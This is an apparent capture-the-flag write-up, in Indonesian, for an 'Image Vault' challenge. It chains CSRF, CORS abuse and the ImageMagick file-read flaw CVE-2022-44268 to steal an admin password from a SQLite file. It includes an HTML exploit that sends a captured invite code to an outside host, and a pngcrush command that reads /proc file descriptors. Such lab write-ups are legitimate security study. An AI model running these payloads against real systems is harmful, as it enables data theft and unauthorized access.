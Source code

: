 # Image Vault

Chaining: CSRF -> CORS Exploitation -> CVE-2022-44268 -> Admin Login.

1. CSRF Exploitation di API Add Invite Code `/api/add-invite-code`, ini bisa diexploit menggunakan fetch dengan menggunakan option `mode: "no-cors"` dan `credentials: "include"`

2. Selanjutnya CORS Exploitation untuk dapat melihat Invite Code pada API `/api/invite-code/<username>` yang digenerate setelah Add Invite Code, Invite Code ini bisa capture ke server kita agar bisa melanjutkan proses registrasi.

Exploit HTML:
```html
<html>
   <script>
        fetch("https://localhost:1337/api/add-invite-code", {credentials: "include", mode: "no-cors", method: "POST", body: JSON.stringify({"username":"h3h3"})}).then(response =>
            fetch("https://localhost:1337/api/invite-code/h3h3", {credentials: "include"}).then((response) => {
                console.log(response);
                response.json().then((data) => {
                    fetch("https://server/?logs="+data.invite_code.code)
                });
            })
        );
    </script>
</html>
```

3. Registrasi menggunakan username yang sudah di add pada Add Invite Code tadi dan menggunakan Invite Code yang didapatkan

4. Setelah masuk, terdapat vulnerability pada version ImageMagick yang digunakan (CVE-2022-44268). Proses convert ini dilakukan oleh library `cmagick` yang sebenarnya hanya menjalankan subprocess untuk menjalankan command convert.

Vulnerable code:
```py
cmagick.resize(file_path, "75%", file_path)
```

Dikarenakan adanya limitasi file yang di read oleh exploit CVE-2022-44268, dan goals dalam soal ini adalah Admin Login, kita harus bisa membaca file descriptior SQLite yang ada di `/proc/xx/fd/3`. Karena process id ini bersifat random, kita harus melakukan bruteforce sedikit.

```sh
pngcrush -text a "profile" "/proc/12/fd/3" image.png
```

5. Setelah itu upload image yang sudah di generate

6. Download kembali png yang sudah diconver pada /home, untuk mendownloadnyapun bisa gunakan `wget` dengan `--no-check-certificate`.

7. Identify image dengan command

```sh
identify -verbose image.png
```

Dari itu kita mendapatkan hex yang berisi content dari SQLite database pada section Raw Profile Type:

```
    Raw profile type:

   32768
53514c69746520666f726d61742033001000010100402020000000080000000800000000
000000000000000300000004000000000000000000000001000000000000000000000000
000000000000000000000000000000000000000000000008002e862a0d0ff800070ce600
0ee60fcf0dc10eb10e7c0ce60d9600000000000000000000000000000000000000000000
[..snipp..]
```

8. Kita bisa convert menggunakan command:
python3 -c 'print(bytes.fromhex("53514c69746520666f726d61742033001000010100402020000000080000000800000000...").decode("utf-8"))'

9. Read SQLite database yang berisi password admin.

10. Login ke akun admin dengan password yang didapatkan

11. Pergi ke `/flag` untuk mendapatkan flag.


# Ref
- https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC
- https://www.youtube.com/watch?v=KbCR_lkVU5w
